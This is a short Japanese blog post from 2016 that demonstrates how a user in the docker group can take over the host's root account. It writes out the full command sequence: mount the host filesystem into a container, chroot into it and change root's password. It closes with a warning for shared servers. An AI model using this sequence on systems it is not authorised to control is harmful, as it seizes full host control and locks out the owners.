 ```yaml
---
title: dockerグループの権限でホストのrootアカウントを奪取する
pubtime: 2016-06-14T10:27+0900
amp: hybrid
tags: [docker, root, コンテナ, 仮想化, chroot, CoreOS]
description: dockerを使うときに使うdockerグループの権限があれば、そのホストのrootアカウントを簡単に奪取出来るそうです。実際に試してみました。
---
```


[docker](https://www.docker.com/)というコンテナ型の仮想化ソフトがありますよね。
セキュリティが宜しくないとかで、置き換えを目指す[rkt](https://coreos.com/rkt/)という別のソフトウェアが出て来ていたりします。

調べてみたところ、dockerグループに属した一般ユーザーがrootの権限を使えるらしいです。ヤバそうです。試してみました。

ひとまず、ubuntuか何かのイメージを落してきます。使うイメージはなんでも良いと思います。
ちなみにホストマシンには[CoreOS](https://coreos.com/)を使ってみました。
```
ホストマシン $ docker pull ubuntu
```

出来たら、起動します。
```
ホストマシン $ docker run -itv /:/mnt ubuntu /bin/bash
```
ホストマシンのルートディレクトリを`/mnt`にマウントしている、というのがポイントです。
あとのオプションは適当に調べてください。

次に、ホストマシンのルートディレクトリにchrootを行ないます。
```
コンテナ # chroot /mnt /bin/bash
```
これでホストマシンのrootに（擬似的に）なれました。

rootのパスワードを変えます。
```
chrootしたあと # passwd
```
これが出来たら、あとはexit2回でマシンを閉じます。

設定したパスワードでログイン出来るか試してみましょう。
```
ホストマシン $ su -
Password:
```
普通にrootになれると思います。

ね、簡単でしょう？
共有サーバーで運用する場合、dockerグループも迂闊に渡さないようにしたほうが良さそうです…。
